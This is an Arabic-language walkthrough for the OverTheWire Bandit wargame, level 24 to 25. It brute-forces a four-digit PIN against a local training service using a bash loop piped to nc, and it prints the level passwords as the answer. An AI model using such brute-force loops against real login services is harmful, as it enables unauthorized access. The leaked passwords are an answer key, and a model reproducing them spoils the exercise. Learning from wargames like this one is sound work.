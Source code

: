 # حل Bandit Level 24 → 25

**التاريخ:** 2025-10-01

---

## الوصف
هناك خدمة تستمع على المنفذ **30002**. تعطيك كلمة مرور المستخدم **bandit25** إذا أعطيتها كلمة مرور **bandit24** ورمز سري **4-أرقام** (من 0000 إلى 9999). لا يوجد طريقة أسرع لاسترجاع هذا الرمز سوى تجربة جميع التركيبات — أي brute-force.

المطلوب: إرسال سطر واحد لكل محاولة يحتوي كلمة مرور bandit24 ثم المسماة (space) ثم سلسلة الأرقام (مثلاً `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0000`). لا يلزم إنشاء اتصال جديد في كل محاولة — نفتح اتصال واحد وندفَع كل المحاولات خلاله.

---

## الفكرة العامة
ننشئ قائمة من السطور:
```
<password-of-bandit24> <pincode>
```
لكل pincode من `0000` إلى `9999`، ثم نمرّرهم لبرنامج `nc` متصلًا بالمنفذ 30002. نقرأ المخرجات ونفلتر السطر الذي يحتوي على كلمة مرور bandit25.

**ملاحظة صغيرة عن سلاسل الأرقام بصيغة 4 خانات:** نستخدم `seq -w 0 9999` أو تنسيق Bash `{0000..9999}` أو printf `%04d` للحفاظ على الصيغة `0000`, `0001`, ...

---

## حل سريع (أمر واحد)
```bash
for i in $(seq -w 0 9999); do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002 | grep "bandit25"
```

### شرح مختصر:
- `seq -w 0 9999` يولّد الأرقام من `0000` إلى `9999` بصيغة 4 خانات.
- كل دورة تطبع سطرًا يحتوي كلمة مرور bandit24 (المعطاة لك) والمسماة.
- كل السطور تُمرّر عبر أنبوب واحد إلى `nc localhost 30002` (فتظل الجلسة الواحدة مفتوحة وتتلقى الخدمة كل المحاولات).
- نبحث في مخرجات الخدمة عن السطر الذي يحتوي `bandit25` ليُعرض لك كلمة مرور bandit25.

> بديل (من دون `seq`, باستخدام brace expansion):
```bash
for i in {0000..9999}; do echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i"; done | nc localhost 30002 | grep "bandit25"
```

## النتيجة (كلمة مرور bandit25)
```
iCi86ttT4KSNe1armKiwbQNmB3YJP3q4
```

---

لا تنسى الصلاة على النبي محمد ﷺ.


